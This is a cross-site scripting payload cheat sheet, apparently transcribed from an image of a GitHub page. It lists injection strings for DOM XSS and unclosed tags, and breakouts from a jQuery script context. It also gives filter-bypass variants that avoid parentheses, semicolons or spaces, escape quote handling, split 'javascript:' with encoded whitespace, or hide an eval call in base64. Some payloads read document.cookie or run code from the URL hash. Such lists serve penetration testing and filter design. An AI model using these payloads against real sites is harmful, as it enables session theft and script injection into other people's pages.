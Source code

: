 ```none
--------------------------------------------------------------------
Unclosed Tags:
<svg onload=alert(1)//
--------------------------------------------------------------------
DOM XSS:
“><svg onload=alert(1)>
<img src=1 onerror=alert(1)>
javascript:alert(document.cookie)
\“-alert(1)}//
<><img src=1 onerror=alert(1)>
--------------------------------------------------------------------
Another case:
param=abc`;return+false});});alert`xss`;</script>
abc`; Finish the string
return+false}); Finish the jQuery click function
}); Finish the jQuery ready function
alert`xss`; Here we can execute our code
</script> This closes the script tag to prevent JavaScript parsing errors
--------------------------------------------------------------------
```

#### Restrictions Bypass

```none
--------------------------------------------------------------------
No parentheses:
<script>onerror=alert;throw 1</script>
<script>throw onerror=eval,'=alert\x281\x29'</script>
<script>'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}</script>
<script>location='javascript:alert\x281\x29'</script>
<script>alert`1`</script>
<script>new Function`X${document.location.hash.substr`1`}`</script>
--------------------------------------------------------------------
No parentheses and no semicolons:
<script>{onerror=alert}throw 1</script>
<script>throw onerror=alert,1</script>
<script>onerror=alert;throw 1337</script>
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>
--------------------------------------------------------------------
No parentheses and no spaces:
<script>Function`X${document.location.hash.substr`1`}```</script>
--------------------------------------------------------------------
Angle brackets HTML encoded (in an attribute):
“onmouseover=“alert(1)
‘-alert(1)-’
--------------------------------------------------------------------
If quote is escaped:
‘}alert(1);{‘
‘}alert(1)%0A{‘
\’}alert(1);{//
--------------------------------------------------------------------
Embedded tab, newline, carriage return to break up XSS:
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
--------------------------------------------------------------------
Other:
<svg/onload=eval(atob(‘YWxlcnQoJ1hTUycp’))>: base64 value which is alert(‘XSS’)
--------------------------------------------------------------------
```
